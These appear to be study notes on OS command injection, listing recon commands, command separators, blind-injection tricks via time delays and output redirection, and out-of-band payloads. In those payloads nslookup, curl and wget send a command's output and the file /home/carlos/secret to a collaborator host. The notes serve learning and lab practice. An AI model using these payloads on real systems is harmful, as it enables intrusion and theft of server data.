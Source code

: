 # Resources
- [Command Injection Playlist - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISIP3vpjzVdNltKKUr27Nwtw)
- Michael Sommer videos
# What is it?
Execute commands of the server
# Reconnaissance - Where to look for it
- In request parameters
- User provided input
# Commands - Linux
- whoami = Name current user
- uname -a = Operating system
- ifconfig = Network configuration
- netstat -an = Network connections
- ps -ef = Running processes
# Commands - Windows
- whoami = Name current user
- ver = Operating system
- ifconfig /all = Network configuration
- netstat -an = Network connections
- tasklist = Running processes
# Where to look for them?
In request parameters
User provided input
# Command separators
There are wordlists to find multiple command separators
Windows and Unix-based systems
```
&
&&
|
||
```
Unix-based systems
```
;
0x0a - newline  
\n - newline 
`inject command`
$(inject command)
```
Comment Character
```
#
& whoami #
```
# Blind OS command injection vulnerabilities
The output of the command is not returned within the HTTP response of the application
The command might have to be URL encoded
- Detection via time delays: 
```bash
& ping -c 10 127.0.0.1 &
& sleep 10 #
```
- Redirecting the output
```bash
& whoami > /var/www/static/whoami.txt &
& whoami > /var/www/static/whoami.txt #
||whoami>/var/www/images/whoami.txt||
```
- Out-of-band techniques
```bash
& nslookup burp-collaborator &
& nslookup `whoami`.burp-collaborator #
|| nslookup `whoami`.burp-collaborator ||
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
```
